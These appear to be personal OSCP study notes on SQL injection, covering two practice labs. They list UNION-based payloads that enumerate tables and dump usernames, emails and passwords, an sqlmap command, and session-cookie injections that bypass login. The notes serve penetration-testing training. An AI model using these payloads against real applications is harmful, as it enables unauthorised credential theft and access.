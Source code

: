 ```yaml
---
aliases:
  - Web Application Exploitation
tags:
  - tech
  - cybsec
  - certification
  - oscp
  - web_application
  - exploitation
author: Mehdi N Tehrani
creat_date: 2023-12-11
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# SQL Injection
#sql_injection

Connect to  mysql database:
#mysql #connect 
`mysql -h <server> -u <user> -p<password> -P<port>`
Get all databases;
`show databases;`

Comment Out: `#` or `-- -` 
version: `@@version` or `version()`

[PortSwigger - SQL Injection cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) #portswigger #cheetsheet

## Lab 1
Attacks: 
1. `' or 1=1; #`: get all users and email
2. `jeremy' union select null,null,null#`:  try this to find out how many columns are in this table
3. `jeremy' union select table_name, null, @@version FROM information_schema.tables; #`: get all table names and mysql version
4. `jeremy' union select column_name from information_schema.columns where table_name like "injection0x01"; #`: get all columns in *injection0x01* table
5. `jeremy' union select username, email, password FROM injection0x01; #`: get username, email, password for all users

other variations:
`jeremy' union select null, null, password from injection0x01;-- -`

> if a column data type is int, null should be written as `null(int)`


## Lab 2
1. Use BurpSuite to examine the http request
2. Use sqlmap #sqlmap to find out which fields are injectable
`sqlmap -r request.txt`
 3. After using the default credentials provided, a cookie gets set. Cookie seems vulnerable to sql injection: 
 - `Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#` can login successfully
 - `Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1='1#` also works
 - `Cookie: session=' or 1='1#`

